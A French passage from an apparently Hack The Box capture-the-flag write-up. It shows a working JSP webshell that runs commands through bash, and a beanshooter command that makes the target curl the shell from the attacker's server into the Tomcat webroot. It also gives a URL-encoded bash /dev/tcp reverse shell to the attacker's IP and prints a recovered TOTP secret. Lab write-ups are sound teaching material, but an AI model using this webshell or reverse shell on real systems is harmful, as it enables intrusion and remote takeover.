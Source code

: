 Créons un webshell JSP pour obtenir un accès plus stable :

```jsp
<%@ page import="java.io.*" %>
<% 
String cmd = request.getParameter("cmd");
Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", cmd});
InputStream in = p.getInputStream();
byte[] buf = new byte[1024];
int len;
while((len = in.read(buf)) > 0) out.write(new String(buf, 0, len));
%>
```

Déployons-le sur la cible :

```bash
# Dans le répertoire où se trouve shell.jsp
python3 -m http.server 8000

# Téléchargement sur la cible
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.129.236.246 2222 exec "curl http://10.10.14.54:8000/shell.jsp -o /opt/tomcat/webapps/ROOT/shell.jsp"
```

Accédons au webshell :

```
http://10.129.236.246:8080/shell.jsp?cmd=id
```

![Webshell fonctionnel](/images/HTBManage/webshell_access.png)

{{< admonition success "Initial Access Obtenu" >}}
Nous avons maintenant un accès initial à la machine via notre webshell JSP !
{{< /admonition >}}

## **Phase 3 : Post-Exploitation & User Flag**

### **1. Découverte du Secret TOTP**

Via notre webshell, on effectue un revershell afin d'avoir un shell plus stable via pwncat :

```bash
http://10.129.236.246:8080/shell.jsp?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.54%2F4444%200%3E%261
```

![Secret TOTP découvert](/images/HTBManage/totp_secret.png)

{{< admonition note "Contenu Récupéré" >}}
```
CLSSSMHYGLENX5HAIFBQ6L35UM
" RATE_LIMIT 3 30 1718988529
" WINDOW_SIZE 3
" DISALLOW_REUSE 57299617
" TOTP_AUTH
[10 codes de secours à usage unique]
```
{{< /admonition >}}
